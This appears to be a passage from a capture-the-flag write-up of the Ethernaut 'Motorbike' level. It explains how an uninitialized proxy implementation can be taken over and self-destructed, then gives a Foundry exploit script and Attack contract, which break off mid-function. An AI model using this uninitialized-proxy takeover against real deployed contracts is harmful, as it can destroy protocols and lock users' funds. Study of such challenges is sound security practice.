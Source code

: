 **Goal:**

Would you be able to selfdestruct its engine and make the motorbike unusable ?

**Explanation:**

1. This is another upgradeable proxy contract setup. Motorbike contract is the proxy contract which forwards the calls to the implementation contract Engine.
2. This time no storage collison is happened.
3. We need to change the `upgrader` of the Engine contract and `selfdestruct` the Engine contract.
4. We have to write an Attack contract which has the selfdestruct function and change the implementation address.
5. We see only one time the `upgrader` was assigned inside Engine contract, that is inside `initialize()` function. And this initialize function was called inside the constructor of the Motobike.
6. But observe that this call was done using `delegatecall`, which is done in the context of the Motorbike. Not the Engine contract.
7. This means the `initialize()` function can be called again as the `intializer` modfier not updated.
8. By calling `intialize()`, we will become the upgrader of the Engine contract.
9. Now, we can update the implementation addres by calling `upgradeToAndCall()` function and pass the data as the signature of the `destructEngine()` function to be called by the Engine contract.
10. This will destruct the Engine contract, because the call was done using `delegatecall` so the storage of the Engine will be affected.

**Level25Solution.s.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity <0.7.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/Level25.sol";

contract Level25Sol is Script {
    bytes32 internal constant _IMPLEMENTATION_SLOT =
        0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    Motorbike instance = Motorbike(0x20072a9B2075f613965e9AE956de56E2d68A45B2);

    Engine engineAddress =
        Engine(
            address(
                uint160(
                    uint256(vm.load(address(instance), _IMPLEMENTATION_SLOT))
                )
            )
        );

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        console.log(address(engineAddress));
        new Attack().exploit(address(engineAddress));

        vm.stopBroadcast();
    }
}

contract Attack {
    Engine public engine;

    function exploit(address _engine) public {
        engine = Engine(_engine);

        engine.initialize();

```